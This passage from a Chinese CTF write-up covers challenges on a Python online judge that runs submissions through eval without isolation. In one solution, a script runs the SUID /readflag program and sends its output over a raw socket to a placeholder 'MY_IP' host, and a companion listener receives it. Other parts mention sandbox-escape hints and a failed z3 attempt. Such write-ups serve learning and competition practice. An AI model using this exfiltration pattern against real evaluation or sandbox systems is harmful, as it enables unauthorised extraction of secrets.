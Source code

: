 题目搭建了一个 Python OJ 环境，评测环境没做任何隔离，直接用极为危险的 `eval` 运行待评测的代码，并且会给出程序输出，直接打印即可。

```python 解题脚本
with open("/flag", "r") as f:
    print(f.read())
```

#### 🤔 ✅ Desirable

第二个 flag 不会打印输出，但评测机环境依然没有隔离，直接通过网络传回 flag。

```python 评测端
import socket
import os
import subprocess

# /flag 测评机没有权限读取，但具有 SUID 的 /readflag 程序可以读取
result = subprocess.run(['/readflag'], capture_output=True, text=True)
output = result.stdout

client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client_socket.connect(('MY_IP', 11451))
client_socket.send(str(result).encode('utf-8') + b'\n')
client_socket.close()
```

```python 解题代码
import socket

# 在自己电脑上守株待兔即可
server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_socket.bind(('0.0.0.0', 11451))
server_socket.listen(1)

while True:
    client_socket, addr = server_socket.accept()
    data = client_socket.recv(1024)
    if data:
        print(f"Flag leaked: {data.decode('utf-8')}")
    client_socket.close()
```

#### 🏃 ❌ Escapable

{%ablock 来自善良出题人的提示 %}

关键词“Python 沙箱逃逸”、“Flask 内存马”；注意 getattr 。

{%endablock%}

题目直接把 `builtins` 换掉了，所以必须进行沙箱逃逸。

起初倒是想搞一搞，但是题目环境拿不到任何输出，如果对着题目环境只能盲操作，而我电脑上又没装 Docker，所以直接放弃。

### 🔢 ❌ 独自一人的数论攻略

试图用 `z3` 求解，跑了半个小时后爆内存了，遂放弃。
